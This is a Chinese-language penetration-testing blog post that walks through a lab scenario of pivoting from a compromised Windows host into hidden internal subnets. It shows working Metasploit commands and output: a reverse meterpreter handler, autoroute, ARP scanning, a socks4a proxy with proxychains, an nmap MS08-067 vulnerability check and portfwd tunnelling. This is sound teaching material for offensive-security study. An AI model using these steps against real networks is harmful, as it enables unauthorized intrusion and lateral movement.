 ```yaml
---
layout:     post
title:      多重转发渗透隐藏内网
date:       2017-02-23
summary:    多重转发渗透隐藏内网
categories: web
tags:
 - pivoting
 - pentest
 - msf
 - ssh
---
```


### About

```
内网机器如下:
```
<img src="https://pentest.blog/wp-content/uploads/final.png">
```
说明:
1)Attacker为攻击者,有一个网卡,网段为172.16.0.0,Attacker系统为kali系统
2)RD为第一个已经渗透的目标,有两块网卡,对应172.16.0.0和7.7.7.0两个网段
3)JC有两块网卡,对应7.7.7.0和8.8.8.0两个网段,JC有ms08-067和efs bof两个漏洞,可getshell
4)SK有一块网卡,对应8.8.8.0网段,SK有vsftpd的漏洞,可getshell
5)起初Attacker只拿到RD的msf的shell,对于目标内网情况一无所知,也不知道存在7.7.7.0和8.8.8.0这两个隐藏的网段
6)目标是准备通过RD来渗透内网中7.7.7.0和8.8.8.0两个隐藏的网段
```

### Step1

Attacker在RD上通过webshell运行了一个reverse类型的后门,然后操作如下:
```
msf > use exploit/multi/handler 
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 172.16.0.20 
LHOST => 172.16.0.20
msf exploit(handler) > set LPORT 1234
LPORT => 1234
msf exploit(handler) > run
[*] Started reverse TCP handler on 172.16.0.20:1234 
[*] Starting the payload handler...
[*] Sending stage (957487 bytes) to 172.16.0.11
[*] Meterpreter session 2 opened (172.16.0.20:1234 -> 172.16.0.11:49162)
meterpreter > ifconfig
Interface  1
============
Name         : Software Loopback Interface 1
Hardware MAC : 00:00:00:00:00:00
MTU          : 4294967295
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0
IPv6 Address : ::1
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff
Interface 11
============
Name         : Intel(R) PRO/1000 MT Desktop Adapter
Hardware MAC : 08:00:27:e1:3f:af
MTU          : 1500
IPv4 Address : 172.16.0.11
IPv4 Netmask : 255.255.255.0
Interface 19
============
Name         : Intel(R) PRO/1000 MT Desktop Adapter #2
Hardware MAC : 08:00:27:7f:3c:fe
MTU          : 1500
IPv4 Address : 7.7.7.11
IPv4 Netmask : 255.255.255.0
```

### Step2

发现RD有两块网卡后,想办法渗透另一个网段7.7.7.0,首先要添加路由,操作如下:
```
meterpreter > run autoroute -s 7.7.7.0/24
[*] Adding a route to 7.7.7.0/255.255.255.0...
[+] Added route to 7.7.7.0/255.255.255.0 via 172.16.0.11
[*] Use the -p option to list all active routes
meterpreter > run autoroute -p
Active Routing Table
====================
 Subnet Netmask Gateway
 ------ ------- -------
 7.7.7.0 255.255.255.0 Session 2
meterpreter >
```
然后开始扫描7.7.7.0网段,操作如下:
```
meterpreter > run post/windows/gather/arp_scanner RHOSTS=7.7.7.0/24
[*] Running module against DISCORDIA
[*] ARP Scanning 7.7.7.0/24
[*]     IP: 7.7.7.11 MAC 08:00:27:7f:3c:fe (CADMUS COMPUTER SYSTEMS)
[*]     IP  7.7.7.12 MAC 08:00:27:3a:b2:c1 (CADMUS CIMPUTER SYSTEMS)
[*]     IP: 7.7.7.20 MAC 08:00:27:fa:a0:c5 (CADMUS COMPUTER SYSTEMS)
[*]     IP: 7.7.7.255 MAC 08:00:27:3f:2a:b5 (CADMUS COMPUTER SYSTEMS)
meterpreter >
```
arp_scanner不太够用,不能扫到端口信息[此时也可用msf自带的其他可以扫描端口的模块如auxiliary/scanner/portscan/tcp来扫
描,因为前面添加了路由],于是用Attacker本机的nmap来扫[可以更完全的扫描,nmap应该比msf中的扫描模块强大],首先在RD上开
sockets4代理,然后用proxychains设置nmap的代理为RD在Attacker的1080端口开启的代理,操作如下:
```
meterpreter > background 
[*] Backgrounding session 2...
msf > use auxiliary/server/socks4a 
msf auxiliary(socks4a) > show options 
Module options (auxiliary/server/socks4a):
   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The address to listen on
   SRVPORT  1080             yes       The port to listen on.
Auxiliary action:
   Name   Description
   ----   -----------
   Proxy  
msf auxiliary(socks4a) > set srvhost 172.16.0.20
srvhost => 172.16.0.20
msf auxiliary(socks4a) > run
[*] Auxiliary module execution completed
[*] Starting the socks4a proxy server
msf auxiliary(socks4a) > netstat -antp | grep 1080
[*] exec: netstat -antp | grep 1080
tcp        0      172.16.0.20:1080            0.0.0.0:*               LISTEN      3626/ruby       
msf auxiliary(socks4a) >
```
proxychains设置/etc/proxychains.conf如下:
```
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
#socks4  127.0.0.1 9050
socks4  172.16.0.20 1080
```
nmap扫描如下:
```
root@kali:~# proxychains nmap -sT -sV -Pn -n -p22,80,135,139,445 --script=smb-vuln-ms08-067.nse 7.7.7.20
ProxyChains-3.1 (http://proxychains.sf.net)
Starting Nmap 7.25BETA1 ( https://nmap.org )
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:445-<><>-OK
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:80-<><>-OK
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:135-<><>-OK
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:22-<><>-OK
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:139-<><>-OK
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:22-<><>-OK
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:135-<><>-OK
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:139-<><>-OK
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:445-<><>-OK
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:139-<><>-OK
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:135-<><>-OK
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:445-<><>-OK
Nmap scan report for 7.7.7.20
Host is up (0.17s latency).
PORT     STATE    SERVICE      VERSION
22/tcp   open     ssh          Bitvise WinSSHD 7.16 (FlowSsh 7.15; protocol 2.0)
80/tcp   closed   http         Easy File Sharing Web Server httpd 6.9
135/tcp  open     msrpc        Microsoft Windows RPC
139/tcp  open     netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open     microsoft-ds Microsoft Windows 2003 or 2008 microsoft-ds
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_server_2003
Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs: CVE:CVE-2008-4250
|          The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2, 
|          Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary 
|          code via a crafted RPC request that triggers the overflow during path canonicalization.
| 
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.51 seconds
root@kali:~#
```
现在发现了7.7.7.20(JC)这台机器端口开放比较多,尝试找出JC的漏洞,操作如下:
首先看看JC的80端口运行了什么cms,但是Attacker的浏览器直接访问http://172.16.0.20会无法访问,因为Attacker的网段与JC
不在同一网段,此处有个要注意的内容:
<font color="red">Attention:</font>
可以选择使用proxychains设置Attacker的浏览器的代理为RD在Attacker的1080端口上绑定[开启]的socks4代理入口[认为msf中的
auxiliary/server/socks4a模块类似于ssh反向代理],也可通过在RD的meterpreter会话中运行portfwd模块命令,portfwd命令如
下:
```
meterpreter > portfwd add -L 172.16.0.20 -l 2323 -p 80 -r 7.7.7.20
[*] Local TCP relay created: 172.16.0.20:2323 <-> 7.7.7.20:80
meterpreter >
```

<pre>
这里的portfwd模块不只是名字上的端口转发的意思,目前笔者认为portfwd相当于半个ssh正向代理加一个ssh反向代理组成的综合命
令,ssh正向反向代理可参考这里的理解 <a href="http://3xp10it.cc/web/2017/02/24/ssh%E6%AD%A3%E5%90%91%E5%8F%8D%E5%90%91%E4%BB%A3%E7%90%86%E7%90%86%E8%A7%A3/">ssh正向反向代理理解</a>

笔者认为portfwd命令之后Attacker可以通过访问Attacker本身ip的2323端口进而访问到JC的80端口期间发生了3件事
<img src="https://raw.githubusercontent.com/3xp10it/pic/master/dot/portfwd.png">

1.RD访问JC的80端口,这里相当于半个ssh正向代理
2.RD绑定已经访问到的JC的80端口的数据到Attacker的2323端口,这里相当于一个ssh反向代理
3.攻击者的浏览器访问攻击者自己的172.16.0.20:2323

portfwd的用法如下:
</pre>
```
meterpreter > portfwd -h
Usage: portfwd [-h] [add | delete | list | flush] [args]
OPTIONS:
     -L >opt>  The local host to listen on (optional).
     -h        Help banner.
     -l >opt>  The local port to listen on.
     -p >opt>  The remote port to connect on.
     -r >opt>  The remote host to connect on.
meterpreter >
```
其中-L只能设置为攻击者的ip,不能设置为肉鸡的ip,-L设置的ip可以是攻击者的内网ip,-r也可以是目标的内网ip,两个内网之
间通过meterpreter会话的"隧道"来连通,如果-L后设置的ip是攻击者的内网ip,-r后设置的是目标机器的内网ip,portfwd通过
meterpreter会话连通两台,-l是指攻击者的监听端口,运行完上面的portfwd add -L 172.16.0.20 -l 2323 -p 80 -r 7.7.7.20
命令后,Attacker的2323端口将变成监听状态(也即Attacker会开启2323端口)

这里还要注意route add命令只能是在meterpreter会话中有效,不能系统全局有效,笔者认为route add也是通过meterpreter会
话的"隧道"来实现攻击者能够访问目标机器其他网段机器的,也即在上面的Attacker通过portfwd来实现访问目标机器其他网段
机器而不能因为在portfwd模块运行前由于已经运行了route add模块而由Attacker的浏览器直接访问目标7.7.7.20:80,因为
route add只能在meterpreter的会话中起作用,只有meterpreter会话下可用的模块可以直接访问7.7.7.x网段
